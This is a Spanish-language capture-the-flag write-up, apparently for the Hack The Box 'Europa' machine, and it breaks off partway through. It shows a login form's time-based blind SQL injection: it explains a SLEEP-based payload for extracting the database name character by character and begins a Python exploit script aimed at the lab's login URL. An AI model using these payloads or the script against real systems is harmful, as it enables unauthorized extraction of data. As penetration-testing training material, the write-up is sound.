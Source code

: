 Al enviar una consulta errónea con el objetivo de enumerar las bases de datos disponibles, el sistema genera un mensaje de error. Inicialmente, podría parecer que la base de datos está filtrando información sensible, pero en realidad, el mensaje de error simplemente muestra el texto ingresado en el campo de contraseña codificado en **MD5**.

<div style="text-align: center;">
	<img src="/assets/images/Europa/sqliError.jpg" alt="Clicker-usernamePlayers" width="1000" oncontextmenu="return false;" />
</div>
<br>
<div style="text-align: center;">
	<img src="/assets/images/Europa/md5hash.jpg" alt="Clicker-usernamePlayers" width="1000" oncontextmenu="return false;" />
</div>
<br>
Intentando realizar una consulta como **database()**, no se obtiene respuesta en pantalla, lo que indica que estamos ante una **inyección SQL ciega** (**Blind SQL Injection**). En este caso, se pueden emplear consultas basadas en tiempo para extraer información caracter por caracter.

```bash
AND IF(ASCII(SUBSTR(database(),1,1))=97,SLEEP(5),1)-- -
```

### Explicación de la consulta:
- **`ASCII()`**: Convierte un carácter en su valor ASCII.
- **`SUBSTR()`**: Extrae una subcadena de una cadena dada. Toma tres argumentos: la cadena de entrada, la posición inicial y el número de caracteres a extraer.
- **`database()`**: Retorna el nombre de la base de datos activa.

### SLQi Blind Inyection Script

```python
import urllib3, sys, time, signal, string

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

https = urllib3.PoolManager(cert_reqs='CERT_NONE')

target_url = "https://admin-portal.europacorp.htb/login.php"
template_payload = "email=admin%40europacorp.htb' and if(ascii(substr(database(),{position},1))={ascii_code},sleep(5),1)-- -&password=asdfasd"

ascii_alphabetic = [ord(char) for char in string.ascii_letters]

def def_handler(sig, frame):
	print("\n\n[!] Saliendo....\n")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def sqliBlind(position):
```